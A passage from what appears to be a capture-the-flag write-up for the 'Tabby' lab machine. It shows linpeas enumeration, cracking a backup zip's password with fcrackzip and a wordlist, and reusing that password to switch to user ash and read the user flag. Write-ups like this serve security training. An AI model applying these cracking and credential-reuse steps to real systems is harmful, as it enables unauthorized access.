 ## System enumeration

With [linpeas][linpeas] we can find a backup file:

```
[+] Backup files?
-rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip
```

```
tomcat@tabby:/var/www/html$ ls
ls
assets  favicon.ico  files  index.php  logo.png  news.php  Readme.txt
tomcat@tabby:/var/www/html$ ls -lhA files
ls -lhA files
total 28K
-rw-r--r-- 1 ash  ash  8.6K Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4.0K Jun 16 20:13 archive
drwxr-xr-x 2 root root 4.0K Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6.4K Jun 16 11:25 statement
```

It password protected, lets' crack it with `fcrackzip`:

```
$ fcrackzip -D -p /usr/share/wordlists/password/rockyou.txt files/16162020_backup.zip
possible pw found: admin@it ()

$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password:
  inflating: var/www/html/favicon.ico
   creating: var/www/html/files/
  inflating: var/www/html/index.php
 extracting: var/www/html/logo.png
  inflating: var/www/html/news.php
  inflating: var/www/html/Readme.txt
```

## Privilege Escalation of Machine : tomcat to ash

Since the backup file was owned by ash we can try to re-use the archive password
for ash account:

```
tomcat@tabby:/var/lib/tomcat9$ su ash
Password: admin@it

ash@tabby:/var/lib/tomcat9$

ash@tabby:~$ cat user.txt
13a5665425216a6a5a14fbd8aab23b93
```
